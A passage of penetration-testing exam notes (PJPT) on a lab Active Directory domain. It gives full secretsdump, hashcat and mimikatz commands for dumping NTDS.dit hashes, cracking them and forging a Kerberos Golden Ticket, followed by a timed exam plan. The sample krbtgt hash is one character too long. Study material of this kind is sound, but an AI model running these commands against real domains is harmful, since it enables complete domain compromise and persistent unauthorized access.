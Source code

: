 ## 🎫 Golden Ticket Connection

The **krbtgt hash** from NTDS.dit enables **Golden Ticket attacks**:

### What is a Golden Ticket?
- **When we compromise the krbtgt account, we own the domain**
- **We can request access to any resource or system on the domain**
- **Golden tickets == complete access to every machine**

### Creating Golden Tickets
```bash
# Extract domain SID and krbtgt hash from NTDS.dit
Domain SID: S-1-5-21-2894840767-2101617394-1820205593
krbtgt hash: 9b25135001a69d53af33aa6cdc8915735

# Create Golden Ticket with Mimikatz
mimikatz.exe "kerberos::golden /user:admin /domain:MARVEL.local /sid:S-1-5-21-2894840767-2101617394-1820205593 /krbtgt:9b25135001a69d53af33aa6cdc8915735 /ticket:golden.kirbi"

# Use Golden Ticket
mimikatz.exe "kerberos::ptt golden.kirbi"
```

## 🎯 PJPT Exam Strategy

### Time Allocation (15-20 minutes)
1. **5 minutes**: Extract NTDS.dit with secretsdump
2. **10 minutes**: Crack high-priority hashes (admin, service accounts)
3. **5 minutes**: Document findings and create Golden Ticket

### Quick Commands Reference
```bash
# One-liner NTDS extraction
secretsdump.py domain/user:pass@DC_IP -just-dc-ntlm

# Fast hash cracking
hashcat -m 1000 ntds_hashes.txt rockyou.txt --potfile-disable -o cracked.txt

# Golden Ticket creation
mimikatz.exe "kerberos::golden /user:admin /domain:target.local /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH"
```

### Documentation Priorities
1. **Screenshot secretsdump output** - Shows complete domain compromise
2. **Document cracked passwords** - Demonstrates password policy weaknesses
3. **Show Golden Ticket creation** - Proves persistent domain access
4. **List accessible systems** - Quantify the impact scope

## 🔍 Advanced Analysis Techniques
